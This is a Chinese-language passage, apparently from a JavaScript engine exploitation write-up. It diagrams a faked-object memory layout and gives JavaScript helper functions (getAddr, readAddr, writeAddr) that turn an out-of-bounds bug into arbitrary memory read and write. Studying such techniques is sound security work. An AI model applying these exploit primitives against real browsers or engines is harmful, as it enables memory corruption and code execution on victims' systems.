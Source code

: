 至此，我们已经获得了越界读写的能力，内存中有如下状态（示意图，前后关系可能会有区别）：

```sh
---------------------------------------------------------------------------------       
+       map (element of g_fake_obj)                                             + <-----+
+-------------------------------------------------------------------------------+       |
+       length      |           0                                               +       |
+-------------------------------------------------------------------------------+       |
+  controlled data (be set to leaked map)  (var: g_controlled_obj)              +       |
+-------------------------------------------------------------------------------+       |
+  controlled data (be set to leaked pro)  g_controlled_arr pro                 +       |
+-------------------------------------------------------------------------------+       |
+  controlled data (be set to leaked elem) g_controlled_arr elem                +       |
+                       which can be pointed to any place in memory             +       |
+-------------------------------------------------------------------------------+       |
+  controlled data (be set to length)                                           +       | 
+-------------------------------------------------------------------------------+       |
+               ....                                                            +       |
+-------------------------------------------------------------------------------+       |
+        map (var: g_fake_obj)                                                  +       |
+-------------------------------------------------------------------------------+       |
+               prototype                                                       +       |
+-------------------------------------------------------------------------------+       |
+               elements                                                        + ------+
+-------------------------------------------------------------------------------+
+   length          |           0                                               +
+-------------------------------------------------------------------------------+
+               properties                                                      +
---------------------------------------------------------------------------------
```

以上的内存关系赋予我们任意读写的能力，编写如下利用函数：

```js
function getAddr(obj) {
// 获得对象的地址
    g_fake_obj[2] = i2f(g_getAddrArr_addr);
    g_getAddrArr[0] = obj;
    return f2i(g_controlled_arr[0]);
}
function readAddr(addr) {
// 任意地址读，实际上是把被控制数组的 elements 指针指向目标地址，接下来从
    g_fake_obj[2] = i2f(addr - 0x10n);
    return f2i(g_controlled_arr[0]);
}
function writeAddr(addr, data) {
// 任意地址写
    g_fake_obj[2] = i2f(addr - 0x10n);
    g_controlled_arr[0] = i2f(data);
}

```

--------
